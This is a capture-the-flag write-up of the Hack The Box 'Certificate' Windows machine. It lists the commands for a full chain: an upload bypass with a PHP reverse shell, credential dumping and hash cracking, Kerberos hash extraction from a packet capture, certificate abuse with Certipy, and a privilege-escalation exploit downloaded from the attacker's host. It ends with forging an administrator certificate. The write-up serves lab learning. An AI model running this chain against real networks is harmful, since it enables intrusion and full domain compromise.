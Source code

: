 
# HTB Certificate - Writeup

**Platform:** Windows  
**IP:** 10.10.11.71  
**Difficulty:** Hard  
**Author:** NoSec

---

## Recon

```text
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Apache httpd 2.4.58 (OpenSSL/3.1.3 PHP/8.0.30)
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certificate.htb)
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certificate.htb)
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: certificate.htb)
3269/tcp open  ssl/ldap
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0
Service Info: Host: DC01; OS: Windows
```

### Clock-skew

- Time synchronization is required for Kerberos!
```bash
sudo rdate -n certificate.htb
```

---

## Web Exploitation – RCE via Upload

You can register on the site and click “Enroll” on any course to get a URL like:
```
http://certificate.htb/upload.php?s_id=36
```

It only allows uploading PDF and ZIP files.  
I used a ZIP concatenation trick so that the actual PHP shell is appended at the end while keeping a valid ZIP structure.

### Steps

1. Create a PHP reverse shell (`shell.php`)  
2. Create an empty PDF (e.g. `test.pdf`)  
3. Merge ZIPs:
```bash
zip head.zip test.pdf
zip -r tail.zip nosechere   # nosechere/shell.php
cat head.zip tail.zip > main.zip
```
4. Upload `main.zip`  
5. Browse to:
```
http://certificate.htb/static/uploads/[...]/nosechere/shell.php
```
6. Netcat listener:
```bash
nc -lvnp 4444
```

Initial shell user: `xamppuser`

---

## Database Enumeration & Access

```cmd
.\mysql.exe -u certificate_webapp_user -p"cert!f!c@teDBPWD" -e "use certificate_webapp_db; select * from users;" -E
```

- **Username:** `sara.b`
- **Bcrypt Hash:** `$2y$04$CgDe/...`

### Cracking

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

→ **Password:** `Bl******`

### WinRM

```bash
evil-winrm -i 10.10.11.71 -u Sara.B -p 'Bl******'
```

⚠️ **Note:** HTB patched the password reset trick on June 10, 2025!

---

## PCAP Analysis – Kerberos Hash Extraction

```bash
python krb5_roast_parser.py WS-01_PktMon.pcap as_req >> hash.txt
```

### Hashcat Crack

```bash
hashcat -m 19900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

→ **Password:** `!QA*****`

---

## Certipy – PFX Requests

```bash
certipy req -u 'lion.sk@CERTIFICATE.HTB' -p "!QA..." ...
certipy req ... -on-behalf-of 'CERTIFICATE\ryan.k'
certipy auth -pfx 'ryan.k.pfx' -dc-ip '10.10.11.71'
```

→ Got `ryan.k` hash  
→ Logged in via WinRM as `ryan.k`

---

## Privilege Escalation

```powershell
whoami /priv
# SeManageVolumePrivilege
```

Exploit:
```powershell
curl 10.10.14.8/SeManageVolumeExploit.exe -O ...
.\SeManageVolumeExploit.exe
```

Test:
```powershell
echo "test" > C:\Windows	est.txt
```

---

## Export CA & Forge Admin Certificate

```powershell
certutil -exportPFX my "Certificate-LTD-CA" C:	emp\ca.pfx
certipy forge -ca-pfx ca.pfx -upn 'administrator@certificate.htb' -out forged_admin.pfx
```

Get NTLM hash:
```bash
certipy auth -dc-ip '10.10.11.71' -pfx forged_admin.pfx ...
```

---

## Root / Administrator Access

```bash
evil-winrm -i 10.10.11.71 -u administrator -H d80430...
```

→ `root.txt` captured ✅

---

## 🧠 Notes & Reflections – What I learned from this box

- Full AD attack chain
- ZIP concat trick
- ADCS/PKI abuse
- Kerberoasting from PCAP
- Shadow Credentials
- Certificate forging

---

## ⚠️ Mistakes, Pitfalls & Tips

- Time sync is a must!
- Password reset was patched (June 10, 2025)

---

## ✅ Summary

*Certificate* is an excellent ADCS compromise lab.  
Recommended for anyone getting into Red/Blue Teaming, PKI abuse, and modern AD attacks.

Feel free to reach out if you have questions!
